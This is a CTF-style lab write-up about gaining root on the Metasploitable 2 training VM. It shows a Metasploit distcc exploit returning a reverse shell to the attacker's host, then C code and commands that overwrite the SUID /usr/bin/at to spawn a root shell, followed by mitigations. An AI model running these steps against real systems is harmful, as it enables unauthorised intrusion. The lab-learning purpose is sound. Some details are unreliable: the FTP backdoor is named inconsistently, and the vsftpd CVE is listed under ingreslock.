
---

# 🧨 Metasploitable 2 — The Hard Way to Root 🚀👑

**Author:** Tayler Derden  
**Category:** CTF / Exploitation Lab  
**Difficulty:** 🔴 Hard  
**Tags:** `PHP-CGI`, `Nuclei`, `LinPEAS`, `Privilege Escalation`, `SUID Hijacking`, `Linux`

---

## 📘 Description

**While this machine is known for its trivial `vsftpd 2.3.4` (імінно цей)`https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb` backdoor, this write-up documents a deliberately chosen, more challenging path to simulate a scenario where common exploits might fail. Instead of taking the easy way, the focus was on deep analysis and exploiting less obvious misconfigurations.**

This challenge is based on the classic **Metasploitable 2** virtual machine.  
The goal: identify vulnerabilities through deep enumeration, gain initial access, and escalate privileges to become **root**.

While there are simpler, well-known paths on this machine, **this write-up documents a deliberate choice to explore less obvious vectors**, simulating a scenario where common exploits might fail. The path involved multiple dead ends, including a patched PHP-CGI vulnerability and a failed PwnKit exploit, ultimately leading to a successful privilege escalation by exploiting a **SUID binary misconfiguration**.

---

## 🔍 Reconnaissance

### Initial Foothold & Deep Scan

Initial enumeration quickly identifies several "low-hanging fruit" vulnerabilities, such as a **backdoored ProFTPD on port 21**. However, choosing the easy path offers little challenge. Instead, the focus was shifted to a more comprehensive analysis of the machine's entire attack surface.

A full vulnerability scan was performed using **Nuclei** to uncover less trivial entry points.

```bash
nuclei -u http://192.168.58.3
```

**Key Results from Nuclei (Ignoring the obvious FTP backdoor):**

| Port | Service     | Finding                                  | Notes                                    |
|------|-------------|------------------------------------------|------------------------------------------|
| 3632 | distcc      | **RCE via CVE-2004-2687**                | **Chosen vector for initial access**     |
| 5432 | PostgreSQL  | Default credentials (postgres:postgres)  | Excellent alternative for access/pillage |
| 6200 | ingreslock | RCE via backdoored service (CVE-2011-2523) | Another solid RCE vector                 |

---

## 🔥 Vulnerability: distcc Command Execution (RCE)

The `distcc` service, a distributed compiler, was running on port 3632 and was vulnerable to **CVE-2004-2687**, allowing unauthenticated remote code execution. This vector was selected for being a more interesting and less common entry point than the FTP backdoor.

- **Metasploit module:** `exploit/unix/misc/distcc_exec`

---

## 💣 Exploitation

### Step 1: Launch Metasploit Exploit

```bash
msf6 > use exploit/unix/misc/distcc_exec
msf6 exploit(unix/misc/distcc_exec) > set RHOSTS 192.168.58.3
msf6 exploit(unix/misc/distcc_exec) > set LHOST 192.168.58.1
msf6 exploit(unix/misc/distcc_exec) > set PAYLOAD cmd/unix/reverse_perl
msf6 exploit(unix/misc/distcc_exec) > run
```

🎉 **Result:** Reverse shell obtained as **daemon (UID 1)**.

---

## 🧠 Privilege Escalation

### Step 2: Surgical Enumeration with LinPEAS

A full LinPEAS scan was initially overwhelming. To focus the search, a targeted scan was used to find only misconfigured file permissions.

```bash
# On the victim machine
./linpeas.sh -o interesting_perms_files
```
🔎 This immediately revealed the critical vulnerability:

`You own the SUID file: /usr/bin/at`

This means the `daemon` user has write permissions on a binary that is owned by `root` and has the SUID bit set.

### Step 3: Exploit via SUID Binary Hijacking

The strategy was to replace the legitimate `/usr/bin/at` binary with a custom payload that spawns a root shell.

```bash
# 1. Back up the original binary
mv /usr/bin/at /tmp/at.bak

# 2. Create a C payload to spawn a root shell
echo '#include <unistd.h>
int main() {
    setuid(0); setgid(0);
    execl("/bin/sh", "sh", NULL);
    return 0;
}' > /tmp/evil_at.c

# 3. Compile the payload and replace the original binary
gcc /tmp/evil_at.c -o /usr/bin/at

# 4. Restore the SUID bit
chmod +s /usr/bin/at

# 5. Execute the hijacked binary
/usr/bin/at
```
🔥 Boom → A new shell appeared with **root access**.

---

## 🏆 Final Outcome

✔️ Performed deep enumeration with **Nuclei**, bypassing initial dead ends.  
✔️ Exploited **distcc (CVE-2004-2687)** → gained reverse shell as `daemon`.  
✔️ Performed targeted enumeration with **LinPEAS**.  
✔️ Escalated privileges by **hijacking a writable SUID binary (`/usr/bin/at`)**.  
✔️ Achieved **ROOT**!

---

## 🔬 CIA Triad Impact

| Property        | Impact                                                                    |
|-----------------|---------------------------------------------------------------------------|
| Confidentiality | 🔴 Full disclosure of all system data, including `/etc/shadow` and user files. |
| Integrity       | 🔴 Attacker can modify any file, install backdoors, and manipulate logs.    |
| Availability    | 🔴 The system can be fully disabled or destroyed by the attacker.           |

---

## 🛡️ Mitigation

- **Patch Services:** Update or disable vulnerable services like `distcc`.
- **Principle of Least Privilege:** Run services with dedicated, unprivileged users.
- **File Integrity Monitoring:** Use tools like `AIDE` or `Tripwire` to detect unauthorized changes to critical system binaries.
- **SUID/SGID Auditing:** Regularly audit SUID/SGID files and remove permissions where they are not strictly necessary.

---

## 💡 Reflection

This lab was a masterclass in persistence and methodical problem-solving.
- It proved that while simple paths like the **ProFTPD backdoor** exist, a deeper analysis reveals a much richer and more educational attack surface.
- Reinforced the power of **targeted enumeration** over "spray and pray" tactics.
- Showcased a classic, reliable privilege escalation technique that is often more effective than complex kernel exploits.
- The path was not linear; it required adapting to failures and re-evaluating intelligence, which is the essence of a real penetration test.

🔥 This wasn't just about getting root; it was about earning it through analysis, precision, and the deliberate choice of a more challenging path.
